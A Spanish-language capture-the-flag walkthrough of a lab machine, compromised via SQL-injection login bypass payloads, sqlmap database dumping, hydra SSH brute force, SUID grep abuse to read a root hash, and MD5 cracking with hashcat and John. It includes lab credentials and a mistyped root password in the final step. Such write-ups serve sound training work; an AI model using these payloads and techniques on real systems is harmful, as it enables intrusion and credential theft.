


<p align="center">
    
</p>


Compruebo si está activa
```
ping -c 1 172.17.0.2
```

<p align="center">
    
</p>


---

## Enumeración
### Escaneo de puertos
- Primero hago un reconocimiento de puertos silencioso de los puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>


**Resultados del escaneo:**

| Puerto | Estado | Servicio |
| ------ | ------ | -------- |
| 22/tcp | open   | ssh      |
| 80/tcp | open   | http     |


Realizamos un segundo escaneo al puerto abierto, lanzando una serie de script por defecto de `nmap` y reconocimiento de servicios.
```
nmap -p22,80 -sVC --min-rate 5000 -n -Pn 172.17.0.2
```

<p align="center">
    
</p>

| Puerto | Estado | Servicio | Versión                                       |
| ------ | ------ | -------- | --------------------------------------------- |
| 22/tcp | open   | ssh      | OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0) |
| 80/tcp | open   | http     | Apache httpd 2.4.61 ((Debian))                |

---


<h3><center> Análisis del servidor web HTTP (puerto 80)</center></h3>

Al introducir la IP como la dirección URL, la web nos muestra lo siguiente:
<p align="center">
    
</p>


Y observando la web, vemos una página que contiene un `login`
<p align="center">
    
</p>


Hago un reconocimiento de las tecnologías con las que está hecha la aplicación web.
```
whatweb http://172.17.0.2
```

<p align="center">
    
</p>


Nos nos indica mucho. Si probamos las credenciales típicas como `admin:admin`.
<p align="center">
    
</p>


Nos envía a una pagina de error, `logerror.html`. Si probamos en el `login` un `bypass SQL` como;
```
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
```

<p align="center">
    
</p>


No envía a la misma página de error. Realizamos `FUZZING WEB`, para ver posibles directorios, ficheros que contenga el servidor web. 

### Fuzzing Web

**dirb**
```
dirb http://172.17.0.2
```

<p align="center">
    
</p>


No nos encuentra mucho, así que realizamos un segundo escaneo con la herramienta `gobuster`.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,asp,aspx,py
```

<p align="center">
    
</p>


Tampoco no nos muestra mucho. Lo que se me ocurre es capturar la petición del panel del `login`. Así que abrimos `burpsuite` y capturamos la solicitud.

Si interceptamos la petición y en el `login` enviamos la solitud, obtenemos.
<p align="center">
    
</p>

<p align="center">
    
</p>

Guardamos la petición en un fichero `request.txt` para ver si con la herramienta `sqlmap` podemos enumerar la base de datos.
```
nano request.txt
```
<p align="center">
    
</p>

Una vez teniendo la petición, iniciaremos la herramienta de `sqlmap` de la siguiente forma.

```
sqlmap -r request.txt --dbs
```

<p align="center">
    
</p>


Obtenemos las base de datos, la que nos llama la atención es la base de datos `users`. Así que veremos las tablas de la base de datos de `users`
```
sqlmap -r request.txt -D users --tables
```

<p align="center">
    
</p>


Por lo que vemos contiene una tabla llamada `usuarios`, por lo que haremos es ver las columnas de la tabla `usuarios.
```
sqlmap -r request.txt -D users -T usuarios --columns
```

<p align="center">
    
</p>


Ahora sabiendo que las columnas se llaman así, podremos ver el contenido de cada una haciendo lo siguiente.
```
sqlmap -r request.txt -D users -T usuarios -C id,username,password --dump
```

<p align="center">
    
</p>

Vemos usuarios y contraseñas, lo primero que hacemos es guardarnos esta información en dos ficheros uno para los usuarios y otro para contraseña.
```
nano users.txt
```
```
nano passwords.txt
```

<p align="center">
    
</p>


Intentamos acceder por medio del servicio `SSH` con esas credenciales pero no tuvimos suerte, por lo que intentaré realizar fuerza bruta para ver si conseguimos asignar a cada usuario su contraseña.

### Hydra
Teniendo el diccionario de usuarios personalizado, realiza un ataque de fuerza bruta. 
```
hydra -L users.txt -P passwords.txt ssh://172.17.0.2 -t 64
```

<p align="center">
    
</p>

Obtuvimos las credenciales del usuario `pepe`, su contraseña es `P123pepe3456P`. Así que iniciamos sesión en el servicio `SSH` con estas credenciales.
```
ssh pepe@172.17.0.2    # Después ponemos la contraseña P123pepe3456P
```

<p align="center">
    
</p>

Conseguimos iniciar sesión con el usuario `pepe`.  Enumerando el sistema no encontramos nada. 

---

## POST-EXPLOTACIÓN

#### Escalada de privilegios

Vemos los binarios que puede ejecutar el usuario `pepe`.
```
sudo -l
```

<p align="center">
    
</p>

No está instalado el comando `sudo`. Por lo que vamos a buscar los binarios que tengan permisos `SUID`.
```
find / -perm -4000 2>/dev/null
```

<p align="center">
    
</p>

El que veo interesante es `grep`. si vamos a la web de y buscamos el binario `grep` por `SUID` [GTFObins][https://gtfobins.github.io/gtfobins/find/#suid]
nos indica que ejecutando el siguiente comando podemos obtener privilegios de `root`.
<p align="center">
    
</p>


Nos indica que realizando un `grep` a cualquier fichero podemos escalar los privilegios. Así que lo realizamos para leer la contraseña hasheada del usuario `root.
```
/usr/bin/grep '' /root/pass.hash
```

<p align="center">
    
</p>

El hash es un md5. Si vamos a la web [(MD5 Decrypt)](https://www.md5online.org/md5-decrypt.html#google_vignette) y lo desencriptamos, obtenemos `spongebob34`. También podemos usar herramientas como `hashcat` y `JohnTheRipper`. Para ello guardamos el hash en un fichero.
```
nano hash.txt
```

<p align="center">
    
</p>


Y procedemos a desencriptarla.

- **HASCAT**
```
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

<p align="center">
    
</p>

<p align="center">
    
</p>


Desencripta el hash.

- **JohnTheRipper**
```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

<p align="center">
    
</p>

También la desencripta. Teniendo la contraseña del usuario `root`, pivotamos a este
```
su root     # Después ponemos la contraseña spngebob34
```

<p align="center">
    
</p>


Somos el usuario `root`.


